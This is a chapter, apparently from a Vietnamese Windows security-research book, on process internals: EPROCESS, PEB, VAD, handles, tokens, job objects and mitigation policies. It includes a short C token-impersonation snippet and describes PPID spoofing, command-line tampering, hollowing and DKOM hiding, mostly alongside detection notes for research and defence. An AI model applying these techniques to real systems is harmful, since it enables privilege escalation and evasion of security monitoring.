





# Chương 3 — Processes and Jobs

> **Researcher note:** Process là đơn vị cơ bản nhất của Windows security model — không phải thread, không phải DLL. Hiểu process internals ở mức kernel object là điều kiện tiên quyết để phân tích cross-process memory tampering, PPL visibility gap, token abuse, job escape, và toàn bộ vùng EDR visibility-limit analysis.

---

## 0. Chapter Map

| Mục | Nội dung | Tại sao quan trọng |
|-----|----------|--------------------|
| 0 | Chapter Map | Điều hướng |
| 1 | Researcher Mindset | Đặt khung tư duy bảo mật |
| 2 | Big Picture | Sơ đồ PE → section object → EPROCESS → ETHREAD |
| 3 | Key Terms | Từ điển thuật ngữ chính |
| 4 | Core Internals | Program/process/image, CreateProcessW, address space, handles, token, PEB, EPROCESS, lifetime |
| 5 | Important Components | Resource map, jobs, mitigation policies, PPL |
| 6 | Trust Boundaries | 6 ranh giới bảo mật của process |
| 7 | Attack Surface Map | Bảng 18 attack surface |
| 8 | Abuse Patterns | 7 kỹ thuật tấn công process |
| 9 | EDR Telemetry | User-mode, kernel, Event Log / ETW, giới hạn |
| 10 | Forensic Artifacts | Prefetch, AmCache, VAD dump, memory forensics |
| 11 | Debugging Notes | Process Explorer, Procmon, VMMap, WinDbg, x64dbg |
| 12 | Labs | 6 bài thực hành |
| 13 | Researcher Mistakes | Bảng 12 sai lầm phổ biến |
| 14 | Version Notes | Thay đổi qua các phiên bản Windows |
| 15 | Summary | Tổng hợp |
| 16 | Research Questions | 12 câu hỏi mở |
| 17 | References | Tài liệu tham khảo |
| 18 | Illustration Plan | Kế hoạch vẽ diagram |

---

## 1. Researcher Mindset

**Process là gì theo góc nhìn bảo mật?**

Process không chỉ là "một chương trình đang chạy". Theo góc nhìn của researcher, process là:

- **Một security container** — mọi thread, DLL, bộ nhớ, handle đều được gắn với một process identity (token)
- **Một isolation boundary** — OS kernel dùng address space riêng, handle table riêng để cô lập process với nhau
- **Một telemetry source** — mỗi giai đoạn vòng đời process tạo ra event có thể thu thập bởi EDR
- **Một attack target** — cross-process memory tampering, token abuse, handle hijack, PPID spoof đều nhắm vào metadata và cơ chế tạo process

**Ba câu hỏi cần đặt ra với mọi process:**

1. **Token của nó là gì?** — SID, privileges, integrity level, session ID
2. **Handle table của nó chứa gì?** — access đến object nào, ở access mask nào
3. **Ai tạo ra nó và bằng cách nào?** — PPID, command line, image path, creation flags

**Tại sao PPID không đáng tin?**

PPID trong EPROCESS là trường `InheritedFromUniqueProcessId` — đây là metadata ghi tại thời điểm tạo process, không phải quan hệ kernel-enforced. Caller có thể đặt PPID tùy ý qua `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS`. EDR hiện đại cần so sánh PPID với process start time để phát hiện spoof: nếu claimed parent đã exit trước khi child được tạo, đây là red flag.

**Tại sao command line không đáng tin?**

`RTL_USER_PROCESS_PARAMETERS.CommandLine` là buffer trong PEB — user-mode writable. Malware có thể overwrite sau khi process start. EDR phải capture command line tại thời điểm creation (qua `PsSetCreateProcessNotifyRoutineEx` callback), không phải đọc lại từ PEB lúc sau.

---

## 2. Big Picture

### 2.1 Từ file PE đến EPROCESS



> **Researcher note:** EPROCESS chứa KPROCESS ở offset 0 (không phải pointer — là inline struct). Tương tự ETHREAD chứa KTHREAD ở offset 0. WinDbg command `!process` hiển thị cả hai layer. Điều này có nghĩa địa chỉ EPROCESS == địa chỉ KPROCESS.

### 2.2 Process resource map



### 2.3 Process creation telemetry flow



### 2.4 Process boundary và handle access model



---

## 3. Key Terms

| Thuật ngữ | Định nghĩa ngắn | Relevance cho researcher |
|-----------|-----------------|--------------------------|
| **Program** | File PE tĩnh trên disk | Điểm bắt đầu của phân tích — hash, imphash, rich header |
| **Process** | Instance đang chạy của program, có PID và address space riêng | Container của execution context |
| **Image** | PE file đã được mapped vào address space (section object) | Quan trọng để phân biệt "file hash" vs "in-memory code" |
| **EPROCESS** | Kernel executive object đại diện process | Source of truth — token, handles, mitigation flags |
| **KPROCESS** | Scheduler portion của process (ở offset 0 của EPROCESS) | DirectoryTableBase = CR3 value |
| **PEB** | User-mode struct tại địa chỉ cố định, đọc bởi ntdll và user code | Dễ bị tamper — BeingDebugged, NtGlobalFlag, Ldr list |
| **TEB** | User-mode struct cho từng thread, trỏ tới stack | FS/GS register → TEB → PEB |
| **Section Object** | Kernel object đại diện mapped file / shared memory | Shared DLL code dùng chung section object |
| **VAD** | Virtual Address Descriptor — binary tree mô tả address space | Forensics: detect injected memory (no backing file) |
| **Handle Table** | Per-process table ánh xạ handle → object + access mask | Handle inheritance, handle hijack |
| **Access Token** | _TOKEN object — SID, privileges, integrity level | Token abuse, impersonation |
| **PPID** | Parent PID — `InheritedFromUniqueProcessId` trong EPROCESS | Không trusted — có thể spoof |
| **RTL_USER_PROCESS_PARAMETERS** | Struct trong PEB chứa cmdline, env, CWD | User-writable — có thể bị overwrite |
| **Job Object** | Container nhóm nhiều process, áp đặt limits | Sandbox boundary — escape là primitive quan trọng |
| **Mitigation Policy** | Per-process security flags (DEP, ASLR, CFG, CET, ACG...) | Chặn exploit techniques — visibility gap là môn học riêng |
| **PPL** | Protected Process Light — _PS_PROTECTION | Chặn OpenProcess từ non-PPL caller |
| **NtGlobalFlag** | Debug flag trong PEB.NtGlobalFlag | Anti-debug detection — heap flag check |
| **BeingDebugged** | PEB.BeingDebugged byte | Anti-debug — patch để visibility gap |
| **PsProtection** | EPROCESS.Protection — Type + Signer fields | Determines PPL level |
| **MitigationFlags** | EPROCESS.MitigationFlags / MitigationFlags2 | Per-process exploit mitigations |

---

## 4. Core Internals


> Research caveat:
> This detail is build-, symbol-, and configuration-dependent. Treat it as a research model, then verify on the target build with public symbols, WinDbg, Microsoft documentation, and controlled lab observations.


> Research caveat:
> Parent PID, command line, PEB fields, and process object fields are observations from specific layers. Treat them as evidence with source-layer context, not universal truth; verify with kernel callbacks, ETW/Event Log/EDR, memory, and target-build symbols.

### 4.1 Program, Process, và Image — ba khái niệm khác nhau

| Khái niệm | Tồn tại ở đâu | Mutable? | Ghi chú |
|-----------|---------------|----------|---------|
| **Program** | Disk — PE file | Không (sau khi signed) | Hash, signature, imphash là thuộc tính của program |
| **Image** | Memory — section object | Code thường không | Một DLL có thể được map bởi nhiều process — shared section |
| **Process** | Kernel + user-mode | Có | Address space, handles, token thay đổi trong lifetime |

> **Researcher note:** "Process hollowing" exploit sự tách biệt này — tạo process từ file hợp lệ, sau đó unmap image và map shellcode vào. EDR thấy image path hợp lệ nhưng code thực thi là malicious. Phát hiện qua VAD: vùng nhớ tại ImageBaseAddress không có backing file, hoặc hash không khớp với file trên disk.

### 4.2 CreateProcessW flow — từ API đến kernel object

**Bước 1 — User-mode (Ring 3):**

```
CreateProcessW (kernel32.dll)
  → CreateProcessInternalW (KernelBase.dll)
      1. NtOpenFile / NtCreateSection — open PE, create section object
      2. NtCreateUserProcess — syscall
         args: section, params (cmdline, env, CWD), flags, attribute list
```

**Bước 2 — Kernel (NtCreateUserProcess):**

```
PspAllocateProcess
  → Allocate EPROCESS, KPROCESS
  → Copy security token (inherit from parent or explicit)
  → Create handle table
  → Map image into new address space (VAD node created)
  → Map ntdll.dll into address space
  → Allocate PEB, initialize RTL_USER_PROCESS_PARAMETERS

PspAllocateThread (initial thread)
  → Allocate ETHREAD, KTHREAD
  → Allocate TEB, user stack
  → Set initial context: RIP = LdrInitializeThunk (in ntdll)

PsSetCreateProcessNotifyRoutineEx callbacks fired
  → EDR drivers notified here, before thread runs

ObInsertObject → return hProcess, hThread to caller
```

**Bước 3 — First thread execution:**

```
LdrInitializeThunk (ntdll) — loader entry point
  → LdrpInitializeProcess
      → Load all import DLLs (LDR_DATA_TABLE_ENTRY list)
      → Run TLS callbacks
      → Call process entry point (e.g., mainCRTStartup → main)
```

**Creation flags quan trọng:**

| Flag | Giá trị | Tác dụng |
|------|---------|---------|
| `CREATE_SUSPENDED` | 0x04 | Initial thread suspended — malware dùng để inject trước khi run |
| `CREATE_NEW_CONSOLE` | 0x10 | Window mới |
| `CREATE_NO_WINDOW` | 0x08000000 | Ẩn console — malware hay dùng |
| `CREATE_PROTECTED_PROCESS` | 0x40000 | Tạo PP (cần signer cert) |
| `EXTENDED_STARTUPINFO_PRESENT` | 0x80000 | Dùng STARTUPINFOEX — attribute list |
| `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS` | trong attribute list | PPID spoof |
| `PROC_THREAD_ATTRIBUTE_MITIGATION_POLICY` | trong attribute list | Set mitigations tại create time |

### 4.3 Address space — Virtual Address Descriptor tree

Mỗi process có địa chỉ ảo 0x0000000000000000 → 0x00007FFFFFFFFFFF (128 TB trên x64). Kernel dùng **VAD tree** (balanced binary tree của `_MMVAD` nodes) để track:

- Base address và size của mỗi region
- Backing file (section object) hoặc NULL (anonymous / private)
- Protection (PAGE_EXECUTE_READWRITE, etc.)
- Flags: `MemCommit`, `PrivateMemory`, `NoChange`

**Cấu trúc _MMVAD (tóm tắt):**

```c
struct _MMVAD {
    _MMVAD_SHORT Core;       // contains StartingVpn, EndingVpn, u (flags)
    union { ... } u2;         // Subsection pointer (→ section object)
    _SUBSECTION *Subsection;  // → file-backed mapping info
    _MMPTE *FirstPrototypePte;
    _MMPTE *LastContiguousPte;
    _LIST_ENTRY ViewLinks;
    _EPROCESS *VadsProcess;
};
```

**WinDbg:**

```windbg
!process 0 0 notepad.exe     ; get EPROCESS address
!vad <eprocess_addr>          ; dump VAD tree
!vad <eprocess_addr> 4        ; verbose — show file names
```

**Forensic relevance:** Vùng nhớ có `PAGE_EXECUTE_READWRITE` và không có backing file (Subsection == NULL) là red flag — thường là private executable content or manual-mapping research class.

### 4.4 Handle table — per-process object access

Handle là index vào **handle table** của process (`_HANDLE_TABLE`). Mỗi entry (`_HANDLE_TABLE_ENTRY`) chứa:

- Pointer đến kernel object (EPROCESS, ETHREAD, EFILE, v.v.)
- **Access mask** — quyền truy cập được granted tại thời điểm `OpenXxx`
- Attributes: `OBJ_INHERIT`, `OBJ_PROTECT_CLOSE`

**Handle inheritance:** Child process inherit các handle của parent nếu:
1. Handle được tạo với `OBJ_INHERIT` attribute
2. `CreateProcess` được gọi với `bInheritHandles = TRUE`

**Handle hijack:** Nếu attacker có `PROCESS_DUP_HANDLE` trên target process, có thể dùng `DuplicateHandle` để copy handle vào process của mình kèm bất kỳ access mask nào mà target đang có.

```windbg
!handle 0 7 <pid>    ; dump all handles of process <pid>
```

**Kernel enforcement:** Khi code gọi API như `NtReadVirtualMemory(handle, ...)`, kernel gọi `ObReferenceObjectByHandle` — hàm này lookup handle table, kiểm tra access mask trong entry vs required mask, và chỉ khi pass thì trả về object pointer.

### 4.5 Access token — process identity

**_TOKEN structure (tóm tắt):**

| Field | Ý nghĩa | Researcher note |
|-------|---------|-----------------|
| `UserAndGroups` | Mảng SID + Attributes | SID xác định identity và group membership |
| `Privileges` | Mảng LUID_AND_ATTRIBUTES | Enabled privileges — SeDebugPrivilege, SeImpersonatePrivilege, SeTcbPrivilege |
| `IntegrityLevel` | SID: S-1-16-xxxx | Low (0x1000), Medium (0x2000), High (0x3000), System (0x4000) |
| `SessionId` | Session number | Session 0 = services, Session 1+ = interactive |
| `TokenType` | Primary / Impersonation | Primary = process token; Impersonation = thread override |
| `ImpersonationLevel` | Anonymous/Identification/Impersonation/Delegation | Delegation = creds có thể forward qua network |
| `TokenFlags` | Various | TOKEN_IS_FILTERED, TOKEN_LOWBOX, etc. |

**Token abuse pattern:**

```c
// 1. Lấy handle đến target process (cần PROCESS_QUERY_INFORMATION)
HANDLE hProc = OpenProcess(PROCESS_QUERY_INFORMATION, FALSE, targetPid);

// 2. Mở token của process đó
HANDLE hToken;
OpenProcessToken(hProc, TOKEN_DUPLICATE | TOKEN_IMPERSONATE, &hToken);

// 3. Duplicate thành impersonation token
HANDLE hDup;
DuplicateTokenEx(hToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenImpersonation, &hDup);

// 4. Apply lên current thread
SetThreadToken(NULL, hDup);
// Thread bây giờ impersonate identity của target process
```

> **Researcher note:** `SeDebugPrivilege` trong token của attacker process cho phép `OpenProcess` với PROCESS_ALL_ACCESS lên bất kỳ process nào (trừ PPL/PP). Đây là lý do tại sao malware chạy dưới Admin thường enable SeDebugPrivilege trước tiên.

### 4.6 PEB — user-mode view của process

PEB (`_PEB`) nằm tại địa chỉ user-mode (thường 0x000000XXXXXXXXXX trên x64). Pointer từ EPROCESS → PEB qua field `Peb`.

**Fields quan trọng:**

```c
struct _PEB {
    BYTE     BeingDebugged;           // offset 0x002 — anti-debug check
    PVOID    ImageBaseAddress;        // offset 0x010 — base của executable image
    PPEB_LDR_DATA Ldr;               // offset 0x018 — DLL load list
    PRTL_USER_PROCESS_PARAMETERS ProcessParameters; // offset 0x020 — cmdline, env, CWD
    PVOID    ProcessHeap;            // offset 0x030 — default heap
    ULONG    NtGlobalFlag;           // offset 0x068 — debug flags
    ULONG64  OSVersion;              // OS version
    // ... nhiều field khác
};
```

**RTL_USER_PROCESS_PARAMETERS (quan trọng):**

```c
struct _RTL_USER_PROCESS_PARAMETERS {
    UNICODE_STRING ImagePathName;    // Full path của executable
    UNICODE_STRING CommandLine;      // Command line string
    PVOID Environment;              // Pointer đến environment block
    UNICODE_STRING CurrentDirectory; // CWD
    // ...
};
```

**Anti-debug checks dùng PEB:**

| Field | Giá trị debug | Kiểm tra |
|-------|--------------|---------|
| `PEB.BeingDebugged` | 1 | CheckRemoteDebuggerPresent / IsDebuggerPresent dùng field này |
| `PEB.NtGlobalFlag` | 0x70 (heap flags) | Debugger enables heap checking flags |
| Heap header `ForceFlags` | 0x40000060 | Indirect debug indicator |

**WinDbg:**

```windbg
!peb                            ; dump PEB của process hiện tại
dt ntdll!_PEB @$peb             ; manual parse
dt ntdll!_RTL_USER_PROCESS_PARAMETERS poi(@$peb+0x20)
```

### 4.7 EPROCESS — kernel object structure

`_EPROCESS` là central structure của Windows process management. Kích thước thay đổi theo version (Win10 21H2: ~0xB80 bytes).

**Fields quan trọng cho researcher:**

```c
struct _EPROCESS {
    _KPROCESS Pcb;                   // offset 0x000 — scheduler data, DirectoryTableBase (CR3)
    _EX_PUSH_LOCK ProcessLock;       // offset 0x028
    ULONG64 UniqueProcessId;         // offset 0x2E0 — PID
    _LIST_ENTRY ActiveProcessLinks;  // offset 0x2E8 — doubly-linked list (DKOM target)
    _EX_RUNDOWN_REF RundownProtect;
    ULONG Flags;
    // ...
    ULONG64 InheritedFromUniqueProcessId; // offset 0x3E8 — PPID
    _HANDLE_TABLE *ObjectTable;          // offset 0x570 — handle table
    _EX_FAST_REF Token;                  // offset 0x4B8 — access token
    ULONG64 WorkingSetPage;
    PVOID Peb;                           // offset 0x550 — PEB pointer
    // ...
    CHAR ImageFileName[15];              // offset 0x5A8 — truncated name (15 chars + null)
    // ...
    ULONG MitigationFlags;               // offset 0x9D4
    ULONG MitigationFlags2;              // offset 0x9D8
    _PS_PROTECTION Protection;           // offset 0x87A — PPL fields
    // ...
};
```

> **Researcher note:** `ActiveProcessLinks` là doubly-linked list nối tất cả active process. DKOM attack unlink EPROCESS khỏi list này để ẩn process khỏi `NtQuerySystemInformation(SystemProcessInformation)`. Nhưng VAD tree, handle table, và Working Set vẫn tồn tại — memory forensics có thể tìm hidden process qua pool tag scanning (`PROC` tag).

**WinDbg:**

```windbg
!process 0 0                    ; list all processes
!process 0 0 lsass.exe          ; find specific process
dt nt!_EPROCESS <addr>          ; dump full structure
dt nt!_EPROCESS <addr> Token    ; read token field
dt nt!_EPROCESS <addr> Protection  ; read PPL protection
dt nt!_EPROCESS <addr> MitigationFlags  ; read mitigation flags
```

**KPROCESS.DirectoryTableBase:**

```windbg
dt nt!_KPROCESS <eprocess_addr> DirectoryTableBase
; → CR3 value của process — page table root
; Dùng để walk page tables manually trong memory forensics
```

### 4.8 Process lifetime — từ creation đến termination

```
[Create]
NtCreateUserProcess
  → EPROCESS allocated, token copied
  → Address space created
  → Image mapped (section object → VAD)
  → ntdll mapped
  → PEB allocated
  → Initial thread created (ETHREAD)
  → PsCreateProcessNotify callbacks fired
  → Handle returned to caller

[Init — initial thread runs]
LdrInitializeThunk
  → Load imports
  → Run TLS callbacks
  → mainCRTStartup → main()

[Running]
N threads, dynamic DLL loads, handles opened/closed

[Exit]
ExitProcess / TerminateProcess / NtTerminateProcess
  → Threads terminated
  → PsSetCreateProcessNotifyRoutineEx called (exit)
  → Handles closed (object reference counts decremented)
  → Address space freed
  → EPROCESS moved to "zombie" state

[Reap]
Parent calls WaitForSingleObject(hProcess)
  → GetExitCodeProcess → exit code read from EPROCESS
  → hProcess handle closed → EPROCESS reference count → 0
  → EPROCESS freed
```

**Exit code forensics:** `EPROCESS.ExitStatus` — 0 = normal, 0xC0000005 = access violation, 0xC000013A = Ctrl+C. Malware thường terminate injected host process không clean → exit code bất thường.

---

## 5. Important Windows Components / Structures

### 5.1 Process resource map — toàn cảnh

Xem diagram 2.2 ở trên. Key relationships:

| Resource | Kernel struct | User-mode view | Attack vector |
|----------|--------------|----------------|---------------|
| Address space | VAD tree (_MMVAD) | VirtualQuery API | Inject shellcode vào anonymous region |
| DLL list | LDR_DATA_TABLE_ENTRY (kernel) | PEB.Ldr list | DLL hijack, PEB unlink (hide DLL) |
| Handles | _HANDLE_TABLE | GetProcessHandleCount | Handle hijack, DuplicateHandle |
| Token | _TOKEN | OpenProcessToken | Token abuse, impersonation |
| Command line | RTL_USER_PROCESS_PARAMETERS | GetCommandLine | Cmdline spoof (overwrite PEB) |
| Environment | RTL_USER_PROCESS_PARAMETERS.Environment | GetEnvironmentVariable | Environment tampering |

### 5.2 Job objects

**Job** (`_EJOB`) là container nhóm nhiều process và áp đặt **limits** lên toàn bộ nhóm.

**Hierarchy:** Từ Windows 8, job có thể lồng nhau (nested). Mỗi process có thể thuộc nhiều job, nhưng limits được áp theo union (restrictive wins).

**Loại limits:**

| Category | Ví dụ | Ghi chú |
|----------|-------|---------|
| Basic limits | MaxWorkingSetSize, MinWorkingSetSize | |
| Extended limits | JobMemoryLimit, ProcessMemoryLimit | |
| UI restrictions | UIRestrictionsClass | Chặn clipboard, SendMessage cross-process |
| CPU rate | CpuRateControlEnable | Rate limiting theo % |
| Child process | NoChildProcessCreation | Chặn child process — sandbox model |

**Browser sandbox model:** Chrome GPU process chạy trong job với `NoChildProcessCreation` + restricted token + AppContainer. Escape job → primitive cho sandbox escape.

**WinDbg:**

```windbg
!job                              ; list jobs
dt nt!_EJOB <addr>               ; dump job structure
!process 0 0 chrome.exe          ; find PID
dt nt!_EPROCESS <addr> Job       ; check job pointer
```

**API:**

```c
HANDLE hJob = CreateJobObject(NULL, L"MyJob");
AssignProcessToJobObject(hJob, hProcess);
SetInformationJobObject(hJob, JobObjectBasicLimitInformation, &limits, sizeof(limits));
```

### 5.3 Process mitigation policies

Mitigation policies là per-process security flags, set tại creation time hoặc sau bằng `SetProcessMitigationPolicy`. Lưu trong `EPROCESS.MitigationFlags` và `MitigationFlags2`.

**Bảng mitigation quan trọng:**

| Mitigation | Flag / API class | Tác dụng | Visibility gap pattern |
|------------|-----------------|---------|----------------|
| **DEP / NX** | `ProcessDEPPolicy` | Ngăn execute data pages | ROP chains |
| **ASLR** | `ProcessASLRPolicy` | Randomize base addresses | Info leak + brute force |
| **Force ASLR** | `ForceRelocateImages` | Force relocate DLLs không có ASLR | — |
| **High-entropy ASLR** | `HighEntropyASLR` | 64-bit entropy thay vì 8-bit | Harder info leak |
| **SEHOP** | — | Validate SEH chain | Visibility gap via non-SEHOP frame |
| **CFG** | `ProcessControlFlowGuardPolicy` | Validate indirect call targets | Call to non-CFG-valid target |
| **CET (Shadow Stack)** | `ProcessUserShadowStackPolicy` | Phần cứng verify return address | — (hardware-enforced) |
| **ACG** | `ProcessDynamicCodePolicy` | Cấm JIT / dynamic code generation | Cần visibility gap per-call |
| **No Child Process** | `ProcessChildProcessPolicy` | Cấm spawn child | Cross-process execution into existing process |
| **IAF / EAF** | EMET / Exploit Guard | Guard import/export table reads | — |
| **No Win32k** | `ProcessSystemCallDisablePolicy` | Thread không thể call Win32k syscalls | Thường dùng cho sandboxed renderer |
| **CIG** | `ProcessSignaturePolicy` | Chỉ load signed DLL | — |

**Set mitigation tại creation:**

```c
STARTUPINFOEX si = { sizeof(si) };
InitializeProcThreadAttributeList(...);

